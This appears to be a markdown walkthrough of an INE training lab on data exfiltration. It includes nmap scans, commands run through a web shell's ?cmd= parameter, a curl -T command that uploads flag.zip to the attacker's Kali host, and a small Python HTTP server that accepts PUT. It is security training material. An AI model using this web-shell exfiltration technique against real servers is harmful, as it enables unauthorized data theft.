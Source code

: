 # Data Exfiltration

## 🔬

The Kali OS GUI instance is web hosted on the INE website, where:

* You have exploited a vulnerable API endpoint and overwritten it with malicious code. This modification allows you to run commands on the server machine hosting the API, as a _low privilege user_ (i.e. student). A sensitive flag file is kept in a zipped archive file in the _student user's home directory_.
* There is a monitor process running on the server machine that blocks most protocols _except HTTP protocol_ (when using port **80**).
* The API endpoint is accessible at `demo.ine.local` domain.

_Objective_: Transfer the zipped archive to your Kali machine using HTTP protocol and retrieve the flag!

_**Tools**_ used:

* **`nmap`**, **`curl`**
* A web browser
* Python Scripting

## SOLUTION

*   Check Kali instance IP address and ping the vulnerable server.

    * **`ip -br -c a`**
    * **`ping demo.ine.local`**

    ```shell
    root@INE:~# ip -br -c a
    eth1@if126466    UP             192.70.33.2/24 
    lo               UNKNOWN        127.0.0.1/8 
    ip_vti0@NONE     DOWN           
    eth0@if126463    UP             10.1.0.17/16

    root@INE:~# ping demo.ine.local
    PING demo.ine.local (192.70.33.3) 56(84) bytes of data.
    64 bytes from demo.ine.local (192.70.33.3): icmp_seq=1 ttl=64 time=0.159 ms
    ```
* The web server IP is `192.70.33.3`

### nmap

*   Perform an `nmap` scan to check open ports on the server:

    *   _Simple scan_:

        **`sudo nmap demo.ine.local`**

    ```shell
    root@INE:~# sudo nmap demo.ine.local
    Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-05 15:34 IST
    Nmap scan report for demo.ine.local (192.70.33.3)
    Host is up (0.0000080s latency).
    Not shown: 999 closed tcp ports (reset)
    PORT     STATE SERVICE
    8000/tcp open  http-alt
    MAC Address: 02:42:C0:46:21:03 (Unknown)

    Nmap done: 1 IP address (1 host up) scanned in 0.29 seconds
    ```

    *   _Advanced scan_:

        **`sudo nmap -sC -sV -oA nmap/dataexfiltration 192.70.33.3`**

        * **`-sC`** - for default scripts
        * **`-sV`** - probe open ports to determine service/versions info
        * **`-oA`** - output all 3 major formats in a directory

    ```shell
    root@INE:~# less nmap/dataexfiltration.nmap

    # Nmap 7.92 scan initiated Thu May  5 14:31:09 2022 as: nmap -sC -sV -oA nmap/dataexfiltration 192.70.33.3
    Nmap scan report for demo.ine.local (192.70.33.3)
    Host is up (0.0000080s latency).
    Not shown: 999 closed tcp ports (reset)
    PORT     STATE SERVICE VERSION
    8000/tcp open  http    Werkzeug httpd 0.15.2 (Python 2.7.16)
    |_http-title: Site doesn't have a title (text/html; charset=utf-8).
    MAC Address: 02:42:C0:46:21:03 (Unknown)

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Thu May  5 14:31:15 2022 -- 1 IP address (1 host up) scanned in 6.91 seconds
    ```

    * A Python2 web server (Werkzeug) is running on open port **8000**.
* Check the response from a browser by visiting `http://demo.ine.local:8000/`

![](.gitbook/assets/image-20220505111539250.png)

### Web shell commands

* Pass a parameter named `cmd` with the URL, using `?cmd=VALUE` in the URL:
  * **`http://demo.ine.local:8000/?cmd=pwd`**

![](.gitbook/assets/image-20220505120650948.png)

* **`http://demo.ine.local:8000/?cmd=ls+-l`** - check contents of pwd:

![](.gitbook/assets/image-20220505120905753.png)

* _flag.zip_ file must be transferred to the Kali instance.
* Check if `curl` command is present on the server
  * **`http://demo.ine.local:8000/?cmd=curl+-h`** - curl is present:

![](.gitbook/assets/image-20220505121232523.png)

* `curl` can be used to exfiltrate the flag.zip file by sending it over HTTP protocol to a local HTTP server on the Kali instance, using the **`-T`** option:

> \-T, --upload-file This transfers the specified local file to the remote URL. If there is no file part in the specified URL, curl will append the local file name. NOTE that you must use a trailing / on the last directory to really prove to Curl that there is no file name or curl will think that your last directory name is the remote file name to use. That will most likely cause the upload oper‐ ation to fail. If this is used on an HTTP(S) server, the PUT command will be used.

### Python HTTP server

* Run a HTTP server on the local machine using python:
  * **`python -m SimpleHTTPServer 80`**
  * The Kali instance IP is `192.70.33.2`
  * `http://demo.ine.local:8000/?cmd=curl+192.70.33.2+-T+flag.zip`
  * _Error response - Unsupported method ('PUT')_

![](.gitbook/assets/image-20220505125425734.png)

* (Same error with **`python3 -m http.server 80`**)
*   Create a Python script to run an _HTTP server supporting PUT_.

    ```shell
    root@INE:~# which python
    /usr/bin/python

    root@INE:~# nano httpserver.py
    ```

    * Add the following code to the htttserver.py script:

    ```python
    #!/usr/bin/python
    import SimpleHTTPServer
    import BaseHTTPServer

    class SputHTTPRequestHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
        def do_PUT(self):
            print self.headers
            length = int(self.headers["Content-Length"])
            path = self.translate_path(self.path)
            with open(path, "wb") as dst:
                dst.write(self.rfile.read(length))


    if __name__ == '__main__':
        SimpleHTTPServer.test(HandlerClass=SputHTTPRequestHandler)
    ```

    > _Thanks to_ [_BigBlueHat_](https://gist.github.com/BigBlueHat/0ca3894f715aac2f2e40af3a8aa0a436) _for the script._

    * Run the SimpleHTTP server using the script:
      * **`python httpserver.py 80`**
    * Try again the PUT request `http://demo.ine.local:8000/?cmd=curl+192.70.33.2+-T+flag.zip`
      * Archive flag.zip was received by the server.

![](.gitbook/assets/image-20220505130449931.png)

* Stop the running HTTP server and check the folder for the downloaded file.
  * **`ls -l`**

![](.gitbook/assets/image-20220505131132654.png)

* Unzip the archive and retrieve the flag:
  * **`unzip flag.zip`**
  * **`cat flag/flag.txt`**

![](.gitbook/assets/image-20220505131635395.png)

> 📍 Lab solved!
>
> 📌 Check [An Introduction to Web Shells - by Acunetix](https://www.acunetix.com/blog/articles/introduction-web-shells-part-1/)
